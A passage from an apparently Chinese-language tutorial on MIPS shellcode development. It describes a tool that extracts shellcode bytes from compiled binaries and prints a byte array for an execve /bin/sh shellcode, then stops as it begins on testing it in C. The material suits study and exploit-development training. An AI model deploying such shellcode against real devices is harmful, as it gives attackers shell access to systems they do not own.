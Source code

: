```
```

这里推荐的大家一个网址，有大部分的MIPS指令集合：[MIPS指令集合](http://www.mrc.uidaho.edu/mrc/people/jff/digital/MIPSir.html)<br>
我们会发现，优化过后的execve的shellcode指令长度和直接从c语言编译再反编译过来的长度要缩减很多。



## 2. 提取shellcode对应的二进制代码

接着，我们需要用程序中提取shellcode对应的二进制代码。<br>
传统的方式，需要在IDA中寻找到对应的shellcode的二进制代码，比如

[![](https://p4.ssl.qhimg.com/t01d815b0c57399c2de.png)](https://p4.ssl.qhimg.com/t01d815b0c57399c2de.png)

然后拷贝出来，再处理成这样类似的字符串形式：<br>[![](https://p3.ssl.qhimg.com/t0188a9ffa755bb99ab.png)](https://p3.ssl.qhimg.com/t0188a9ffa755bb99ab.png)

可以发现，工作量还是有不少的。因此，我开发了一个简单的工具，来自动的从编译好的二进制代码中，提取对应的shellcode。使用下面的简单命令，就可以提取成c测试格式的二进制代码，或者py测试的。

```
$ python shell_extractor.py execve c
char shellcode[] = `{`
"x24x06x06x66"
"x04xd0xffxff"
"x28x06xffxff"
"x27xbdxffxe0"
"x27xe4x10x01"
"x24x84xf0x1f"
"xafxa4xffxe8"
"xafxa0xffxec"
"x27xa5xffxe8"
"x24x02x0fxab"
"x00x00x00x0c"
"x2fx62x69x6e"
"x2fx73x68x00"
`}`;
```

用法来说，就是：

```
[+] usage: python shell_extractor.py [filename] [format]
[*] where format can be c or py
```

这个工具的核心部分，就是利用readelf –S execve这个命令，来获取shellcode中关键code的部分，然后提取出来构造成需要的格式。<br>[![](https://p2.ssl.qhimg.com/t016872b10fb2dc2771.png)](https://p2.ssl.qhimg.com/t016872b10fb2dc2771.png)<br>
比如，上述 的0xd0就是shellcode二进制代码的起始偏移，0x30就是代码的长度。



## 3. c语言中测试shellcode

按照工具里面的构造，选择c语言格式输出以后，按照下面的c代码格式，就可以方便的测试一下shellcode的了。比如对于execve这个函数。
